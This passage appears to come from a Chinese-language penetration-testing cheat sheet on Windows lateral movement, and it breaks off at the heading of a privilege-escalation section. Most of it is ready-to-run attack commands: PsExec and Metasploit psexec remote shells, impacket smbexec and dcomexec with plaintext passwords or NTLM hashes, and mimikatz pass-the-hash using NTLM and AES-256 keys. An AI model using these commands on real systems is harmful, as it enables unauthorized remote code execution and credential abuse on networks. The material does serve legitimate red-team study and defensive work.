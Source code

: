 * [psexec](http://download.sysinternals.com/files/PSTools.zip)

`PsExec.exe -accepteula \\192.168.1.3 -s cmd.exe` 

`psexec.exe \\ip –accepteula -u username -p password cmd.exe`

* msf

  ```
  exploit/windows/smb/psexec
  set rhost 192.168.1.2
  set smbuser administrtaor
  set smbpass password
  run
  ```

##### 7.[smbexec](http://github.com/SecureAuthCorp/impacket/tree/master/examples)

`python3 smbexec.py domain.com/administrator:1qaz@WSX@192.168.0.1`

##### 8.PTH

```
privilege::debug
sekurlsa::pth /user:administrator /domain:baidu.com /ntlm:161cff084577fe59685db81874498a24
```

AES-256 密钥

需要目标机器上安装 KB2871997 补丁

```
privilege::debug sekurlsa::pth /user:administrator /domain:baidu.com /aes256:7358fb65149672d99b8c9f3dfd0dfeb486b78268e9c5250b23aefbd26f293c60

```

##### 9.DCOM

COM 即组件对象模型 (Component Object Model，COM) ，是基于 Windows 平台的一套组件对象接口标准，由一组构造规范和组件对象库组成。

利用条件

- 具有本地管理员权限的 PowerShell
- 需要关闭目标系统的防火墙。
- 在远程主机上执行命令时，必须使用域管的 administrator 账户或者在目标主机上具有管理员权限的账户

Impacket 工具包[http://github.com/SecureAuthCorp/impacket/tree/master/examples](http://github.com/SecureAuthCorp/impacket/tree/master/examples)

`python3 dcomexec.py teamssix.com/administrator:password@192.168.0.1`

`python3 dcomexec.py teamssix.com/administrator@192.168.0.1 -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24` //使用hash连接

#### 3.5权限提升

##### 1.msf
